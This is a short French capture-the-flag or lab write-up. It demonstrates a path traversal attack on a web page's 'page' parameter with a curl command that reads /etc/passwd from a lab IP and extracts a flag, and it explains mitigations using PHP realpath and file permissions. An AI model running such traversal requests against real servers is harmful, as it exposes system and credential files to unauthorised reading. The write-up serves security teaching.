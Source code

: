 # Exploit 09 - relative path

Sur le site web, le routage est géré par le paramètre de requête _page_. Nous pouvons essayer d'insérer des chemins
relatifs vers les répertoires parents pour trouver des fichiers de configuration sur le serveur.

```bash
curl -s -X GET "http://192.168.56.102/index.php?page=../../../../../../../../../etc/passwd" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```

Pour contrer cette attaque, il faut vérifier que le chemin demandé ne contient pas de séquence `../` et qu'il est bien
situé dans le répertoire de contenu. Pour cela, on peut utiliser la fonction `realpath` de PHP, qui résoudra les
liens symboliques et les séquences `../` pour nous. 

Aussi une bonne gestion des permissions sur les fichiers et répertoires est nécessaire pour éviter que l'attaquant
puisse lire des fichiers sensibles.